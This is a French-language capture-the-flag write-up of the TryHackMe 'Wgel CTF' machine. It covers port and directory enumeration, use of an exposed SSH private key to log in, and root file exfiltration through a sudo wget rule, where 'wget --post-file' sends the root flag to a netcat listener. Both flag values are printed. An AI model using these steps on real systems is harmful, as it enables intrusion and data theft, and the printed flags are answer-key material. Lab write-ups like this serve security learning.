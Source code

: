 # Wgel CTF #

Énumérons l'adresse la cible avec nmap.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nmap -A 10.10.131.111
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-14 17:49 CEST
Nmap scan report for 10.10.131.111
Host is up (0.033s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.37 seconds
```

On voit deux services ouvert :  
- SSH sur le port 22
- html sur le port 80

D'après le titre du site  : Apache2 Ubuntu Default Page: It works, c'est la page par défaut d'Apache.

On va regarder avec gobuster si y a des liens intéressants.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://10.10.131.111 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.131.111
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/14 17:58:01 Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 316] [--> http://10.10.131.111/sitemap/]
/server-status        (Status: 403) [Size: 278]                                    
Progress: 119260 / 220561 (54.07%)                                                ^C
[!] Keyboard interrupt detected, terminating.
                                                                                   
===============================================================
2021/07/14 18:06:06 Finished
===============================================================

```

En premier on trouve /sitemap/  
On refait un coup de gobuster sur /sitemap/  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://10.10.131.111/sitemap/ -w /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.131.111/sitemap/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/14 18:05:41 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.ssh                 (Status: 301) [Size: 321] [--> http://10.10.131.111/sitemap/.ssh/]
/css                  (Status: 301) [Size: 320] [--> http://10.10.131.111/sitemap/css/] 
/fonts                (Status: 301) [Size: 322] [--> http://10.10.131.111/sitemap/fonts/]
/images               (Status: 301) [Size: 323] [--> http://10.10.131.111/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]                                         
/js                   (Status: 301) [Size: 319] [--> http://10.10.131.111/sitemap/js/]    
                                                                                          
===============================================================
2021/07/14 18:06:00 Finished
===============================================================
```

On quelque chose le répertoire .ssh, regardons-le.

```
tim@kali:~/Bureau/tryhackme/write-up$ lynx http://10.10.131.111/sitemap/.ssh/
ICO] Name Last modified Size Description
     ________________________________________________________________________________________________________________________________________________________________________________________________________________________________

   [PARENTDIR] Parent Directory   -
   [ ] id_rsa 2019-10-26 09:24 1.6K
     ________________________________________________________________________________________________________________________________________________________________________________________________________________________________


    Apache/2.4.18 (Ubuntu) Server at 10.10.131.111 Port 80
```

On a un fichier id_rsa  
Récupérons-le  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget  http://10.10.131.111/sitemap/.ssh/id_rsa
--2021-07-14 18:19:25--  http://10.10.131.111/sitemap/.ssh/id_rsa
Connexion à 10.10.131.111:80… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 1675 (1,6K)
Sauvegarde en : « id_rsa »

id_rsa                                                      100%[=========================================================================================================================================>]   1,64K  --.-KB/s    ds 0s      

2021-07-14 18:19:25 (5,52 MB/s) — « id_rsa » sauvegardé [1675/1675]
```

Nous avons pas le nom d'utilisateur.
Regardons les commentaires dans le code source de la page par défaut.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://10.10.131.111/ | grep -F '<!--'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 11374  100 11374    0     0  58030      0 --:--:-- -  <!--
-:--:-- --:--:-- 58030
<!--      <div class="table_of_contents floating_element">
 <!-- Jessie don't forget to udate the webiste -->
```

On voit ici que le nom de l'utilisateur est : Jessie  

***

Connectons-nous.
```bash
tim@kali:~/Bureau/tryhackme/write-up$ chmod 600 id_rsa 
tim@kali:~/Bureau/tryhackme/write-up$ ssh -i id_rsa jessie@10.10.131.111
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```

Avec le nom et le fichier qui contient la clef avec le bon droits le fichier on obtient un accès.  

***

Récupérons le premier flag  

```bash
jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt 
057c67131c3d5e42dd5cd3075b198ff6
```

Le User flag est : 057c67131c3d5e42dd5cd3075b198ff6

***
Trouvons moyen d'être Root.  

```bash
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

D'après la configuration de sudo, on peut exécuter /usr/bin/wget avec les droits root.

Nous pouvons dire à wget d'envoyer notre fichier à une adresse.  

Sur la machine de l'attaquant on écoute le port 80.  
```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 80
listening on [any] 80 ...

```

Sur la machine cible on envoie le fichier.  
```bash
jessie@CorpOne:~/Documents$ sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.9.228.66
--2021-07-14 20:07:10--  http://10.9.228.66/
Connecting to 10.9.228.66:80... connected.
HTTP request sent, awaiting response...
```

On a comme réponse.  
```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.131.111] 35706
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.9.228.66
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d
```

Le second flag est : b1b968b37519ad1daa6408188649263d  